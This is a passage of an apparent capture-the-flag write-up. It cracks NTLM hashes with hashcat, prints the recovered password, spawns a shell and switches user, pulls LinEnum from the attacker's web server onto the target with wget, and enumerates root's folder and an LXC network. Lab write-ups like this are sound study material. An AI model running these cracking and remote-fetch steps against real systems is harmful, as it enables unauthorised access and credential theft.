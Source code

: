 Reviewing ntout I confirmed that the hashes were there and proceeded to feed that into hashcat.

![image](https://user-images.githubusercontent.com/10210108/82266984-2cade180-9939-11ea-8b65-42684eb8efc5.png)

```
hashcat -m 1000 output/ntout.txt --username /usr/share/wordlists/rockyou.txt --force
```
Hashcat was able to crack 1 out of 3 passwords, the password it found was f16tomcat!

![image](https://user-images.githubusercontent.com/10210108/82267130-844c4d00-9939-11ea-8910-0cb00e6e54d3.png)

I was then able to create a full pty with python and su to user atanas with password f16tomcat!.

```
python -c 'import pty;pty.spawn("/bin/bash")'
su atanas
```

![image](https://user-images.githubusercontent.com/10210108/82758531-1e3a4c80-9db5-11ea-900e-f955129399ca.png)


## Steps (root/system)

I copied LinEnum.py to the target directory and started a python http server

```
cp ~/tools/LinEnum/LinEnum.py le.py
python3 -m http.server 80
```
Wget was used download LinEnum to the target box

```
wget http://10.10.14.29/le.sh
```

Running and reviewing the linenum results showed that I could read the contents of root's home folder. 

![image](https://user-images.githubusercontent.com/10210108/82758662-dff15d00-9db5-11ea-9025-d860ac45b328.png)

The root folder showed a flag.txt file instead of the usual root.txt with the content "Getting closer! But what you are looking for can't be found here". 

![image](https://user-images.githubusercontent.com/10210108/82758794-b4bb3d80-9db6-11ea-83cd-578aa0712e2b.png)

Another interesting thing I found while reviewing LinEnum was the network configuration which is indicative of an LXC configuration. LXC is a container service for linux and LXD is an open source container management application. 

![image](https://user-images.githubusercontent.com/10210108/82758991-06b09300-9db8-11ea-9826-dee0121a4ed9.png)

The app.log file in root's home folder showed that server 10.0.3.133 was doing a GET request for /archive.tar.gz using an old version of wget.

![image](https://user-images.githubusercontent.com/10210108/82759010-31025080-9db8-11ea-8d89-0482bef431c5.png)
